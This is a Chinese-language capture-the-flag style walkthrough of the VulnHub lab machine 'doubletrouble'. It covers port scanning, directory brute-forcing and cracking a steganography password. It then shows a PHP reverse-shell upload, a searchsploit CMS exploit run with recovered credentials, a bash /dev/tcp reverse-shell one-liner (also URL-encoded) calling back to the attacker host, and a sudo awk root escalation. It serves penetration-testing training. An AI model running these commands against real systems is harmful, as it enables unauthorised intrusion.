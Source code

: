 # 前言

靶机：`doubletrouble`，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

该靶机目前只剩下一个了，之前记得是有两台构成系列的。

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载`https://pan.quark.cn/s/28f410dd165f`

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行

![](./pic/1.jpg)

# 信息收集

## 使用nmap扫描端口

![](./pic/2.jpg)

## 网站信息探测

访问80端口默认界面，可以看到这是某种CMS，并且版本已经有了，查看页面源代码，发现可能是目录型网站

![](./pic/3.jpg)

使用`gobuster、ffuf、dirsearch、dirb`等工具进行爆破

![](./pic/4.jpg)

# 图片隐写内容获取

访问`secret`，发现一张图片，下载到`kali`中，查看图片，发现类似于专辑的那种封面

![](./pic/5.jpg)

使用`exiftool`、`binwalk`测试并无隐藏信息

![](./pic/6.jpg)

在使用`steghide`，发现输入具有输入密码操作

![](./pic/7.jpg)

使用该系列工具`stegseek`进行破解

```shell
stegseek --crack doubletrouble.jpg /usr/share/wordlists/rockyou.txt passw.txt
```

![](./pic/8.jpg)

这时候，可以使用`steghide`继续，或者直接使用写入到文件中的信息，以这个登录到邮件登录系统

`otisrush@localhost.com`和`otis666`

# 漏洞利用

## 方式一，手动上传php脚本

然后再寻找有无利用点时，发现一个上传的，是头像上传，不过这里直接上传一个`php`文件进行测试。

以`kali`自带的`php`反弹上传，路径在`/usr/share/webshells/php/php-reverse-shell.php`

![](./pic/9.jpg)

点击保存后，发现跳转，并出现报错

![](./pic/10.jpg)

在之前目录爆破时，发现`uploads`目录，只是当时其中并未有内容，这时候再去查看，为什么呢，因为文件名称就给人是上传文件的存放处

可以看到上传的脚本文件，这里有两个，是我在进行上传后，以为哪里有问题导致没有上传成功，所以又上传了一次

![](./pic/11.jpg)

在`kali`开启监听，我在这个脚本中设置的端口是1234，监听这个端口即可

点击脚本，若是网站可解析`php`文件，则可以反弹成功

![](./pic/12.jpg)

成功获取一个`shell`，先获取一个交互式的界面

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 方式二，搜索CMS版本漏洞

通过`CMS`的版本漏洞进行获取`shell`

使用`searchsploit`搜索版本漏洞，发现有很多，这里采用远程代码执行`v2`，注意，这里远程代码执行的漏洞，都需要先有邮箱及密码才行。

![](./pic/13.jpg)

直接把这个文件复制到当前目录，然后查看一下代码内容，代码太长，这里直接找一些用处大的截图

![](./pic/14.jpg)

直接执行该脚本，会提示用法的

![](./pic/15.jpg)

这时候，根据前面获取的邮箱和密码使用j即可

```shell
python3 50944.py  -url http://192.168.10.10/ -u otisrush@localhost.com -p otis666
```

![](./pic/16.jpg)

浏览器访问，发现命令执行了

![](./pic/17.jpg)

这时候，就可以通过传参，构造反弹`shell`的命令，如`bash`、`nc`、`python`等

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'

#经过url编码处理后使用
%2fbin%2fbash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.2%2f9999+0%3e%261%27
```

![](./pic/18.jpg)

# 靶机内信息收集

收集靶机内用户

```shell
ls -al /home
cat /etc/passwd | grep /bin/bash
```

![](./pic/19.jpg)

查看操作系统信息，以及内核版本

![](./pic/20.jpg)

网络状态信息

![](./pic/21.jpg)

查看进程信息、定时任务等

```shell
ps -aux
top
cat /etc/crontab
```

寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```

![](./pic/22.jpg)

发现`sudo`，因为并没有发现其他用户，猜测可能不需要水平提权，直接提取至`root`即可

# 提权

尝试`sudo`对于当前用户是否可用，发现无需密码，并且`awk`可进行`sudo`

![](./pic/23.jpg)

若不知道或忘记`awk`的`sudo`提取，可以借助网站`gtfobins.github.io`获取

![](./pic/24.jpg)

```shell
sudo /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

![](./pic/25.jpg)

不过没有`flag`，可能到这里就可以了

# 总结

该靶机考察以下几点：

1. 网站目录爆破
2. 图片隐写内容及其密码的暴力破解
3. 通过上传头像处的文件上传漏洞，促使反弹`shell`
4. `searchsploit`的使用，以及发现CMS版本漏洞，会利用
5. 对于`sudo`各种命令的提权



















































